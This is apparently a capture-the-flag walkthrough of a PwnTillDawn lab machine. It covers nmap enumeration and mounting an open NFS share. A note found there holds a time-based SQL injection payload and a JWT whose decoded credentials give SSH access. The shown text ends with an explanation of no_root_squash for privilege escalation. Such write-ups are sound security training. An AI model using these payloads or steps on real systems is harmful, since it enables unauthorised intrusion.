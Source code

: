 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f89ed107-9c60-4972-b2d3-a96ea103318e)

## First enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Wed Jul 10 22:48:16 2024 as: nmap -sCV -T4 -Pn -p 22,111,2049,39437,42675,44459,50985 -oN service.txt 10.150.150.59
Nmap scan report for 10.150.150.59
Host is up (0.15s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.4p1 Ubuntu 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b3:f2:84:ff:e7:34:ab:88:d6:77:16:b9:a7:01:b6:a0 (RSA)
|   256 00:4f:42:d3:20:0c:b8:3b:81:20:d7:b7:1a:d2:df:65 (ECDSA)
|_  256 dc:e6:e6:e3:22:d8:b8:82:bd:97:46:3e:27:d9:a6:2e (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34508/udp   mountd
|   100005  1,2,3      44459/tcp   mountd
|   100005  1,2,3      47131/udp6  mountd
|   100005  1,2,3      56261/tcp6  mountd
|   100021  1,3,4      37945/udp6  nlockmgr
|   100021  1,3,4      39437/tcp   nlockmgr
|   100021  1,3,4      40832/udp   nlockmgr
|   100021  1,3,4      42923/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
39437/tcp open  nlockmgr 1-4 (RPC #100021)
42675/tcp open  mountd   1-3 (RPC #100005)
44459/tcp open  mountd   1-3 (RPC #100005)
50985/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 10 22:48:29 2024 -- 1 IP address (1 host up) scanned in 13.15 seconds
```


## Enumerating NFS share pport 2049

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59]
└─$ showmount -e 10.150.150.59                                                    
Export list for 10.150.150.59:
/nfsroot *
```
we can see the nfs share `/nsfroot`. let's mmount the share 

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59/mount]
└─$ sudo mount -t nfs 10.150.150.59:/nfsroot mnt 
                                                                                                                                                                       
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59/mount]
└─$ ls -al mnt 
total 16
drwxr-xr-x 2 root root 4096 Dec 29  2023 .
drwxr-xr-x 2 root root 4096 Dec 29  2023 ..
-rwxrwxrwx 1 root root   41 Dec 29  2023 FLAG1
-rw-r--r-- 1 root root  616 Nov 17  2021 notes.txt
```
mounting the nfs share, we got a flag and note.txt


> checking the content of notes.txt

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PwnTillDawn/10.150.150.59]
└─$ cat notes.txt 
__INTERNAL PENTEST OF WEBAPP @ CLIENT01.PTD__

VULNS:
---

Logout via GET allowed

---

robots.txt -> check, admin page noted

---

SQLI in the main.php parameter id, time based:
?id=1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)

---

No serverside check of auth data, simply parsed from client-submitted string, checked with POC:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwic2VydmVyIjoiY2xpZW50MDEiLCJuYW1lIjoiamVzc3kiLCJwYXNzIjoiNz9KbnYyQjlARSR3IiwiaWF0IjoxNTE2MjM5MDIyfQ.H8XhbfR_rR33W8hkIWTWf8RtqUjFToA2RBMkCCDeKGM

---

X-Frame-Options + X-XSS-Protection headers not set

---

tocheck:

...
```


> Analyzing the jwt token

```js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwic2VydmVyIjoiY2xpZW50MDEiLCJuYW1lIjoiamVzc3kiLCJwYXNzIjoiNz9KbnYyQjlARSR3IiwiaWF0IjoxNTE2MjM5MDIyfQ.H8XhbfR_rR33W8hkIWTWf8RtqUjFToA2RBMkCCDeKGM
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a604dbb6-343a-4088-9cf0-2a228eadf1f1)

using jwt.io do decode the jwt token, we can see username and password `jessy:7?Jnv2B9@E$w`


> Trying ssh with creds found

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/465210c7-cb84-45ee-819e-dbebe2048884)

login ssh successfully



## Privilege Escalation 

> Running linpeas

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bcb64cb8-a00e-4f00-914b-3f934d628539)

 Read the /etc/exports file, we can see the directory that is configured as no_root_squash, then we can access it from as a client and write inside that directory as if you were the local root of the machine.

> Refreshing on NFS dir permissions

- rw: This option gives the client computer both read and write access to the volume.
- sync: This option forces NFS to write changes to disk before replying. This results in a more stable and consistent environment but reduces the speed of file operations.
- inescure: This option allows clients to use any port to access NFS shares.
- no_subtree_check: This option prevents subtree checking, which is a process where the host must check whether the file is actually still available in the exported tree for every request.
- no_root_squash: This option allows privileged file writes inside the share. By default, NFS translates requests from a root user remotely into a non-privileged user on the server.

